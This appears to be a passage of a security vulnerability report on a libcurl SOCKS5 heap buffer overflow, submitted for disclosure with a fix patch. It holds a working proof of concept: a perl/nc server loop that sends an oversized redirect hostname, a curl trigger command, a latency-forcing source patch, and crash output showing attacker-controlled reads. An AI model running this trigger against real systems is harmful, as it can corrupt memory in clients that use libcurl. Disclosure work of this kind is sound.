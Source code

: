 The attacker needs the state machine to be delayed, as discussed earlier. For example, the attacker controls the SOCKS server and delays the initial server hello.

The attacker probably needs to know how large `data->set.buffer_size` is and how the memory is typically allocated, like what comes after `data->state.buffer` in the heap. For example, the attacker has a copy of the program that is using libcurl and can debug it in a similar environment.

# Supporting Material/References:

~~~
Unhandled exception at 0x6e1557be (libcurld.dll) in curld.exe: 0xC0000005: Access violation reading location 0x41414141.
~~~
Refer to attached screenshot Capture.PNG.

~~~
HEAP[curld.exe]: Heap block at 005F8200 modified at 005FC22D past requested size of 4025
~~~
Note 4025 is in hex, in decimal it is 16421 which is 16384+1+heap guard bytes.

~~~
while true; do { perl -e 'print ("HTTP/1.1 301 Moved\r\nContent-Length: 0\r\nConnection: Close\r\nLocation: http://");print("A"x65535);print("\r\n\r\n")'; sleep 2; } | nc -4l [yourip] 8000; done
~~~

start a socks5 server on remoteip (for the latency) and run curl repeatedly until it reads from 0x41414141 (AAAAA....)
~~~
curl -v --limit-rate 16384 --location --proxy socks5h://[remoteip]:1080 http://[yourip]:8000
~~~

if making the socks server remote doesn't work for latency you'd have to modify its source or force it via libcurl source
~~~
   case CONNECT_SOCKS_READ:
+    {
+      static bool x = 0;
+      if(++x == 2)
+        return CURLPX_OK;
+    }
     presult = socks_state_recv(cf, sx, data, CURLPX_RECV_CONNECT,
                                "initial SOCKS5 response");
~~~

# Solution

Refer to attached patch curl_security_fix.patch. It fixes the issue by changing the remote resolve check to return error `CURLPX_LONG_HOSTNAME` if dest host is larger than 255.

## Impact

# Impact
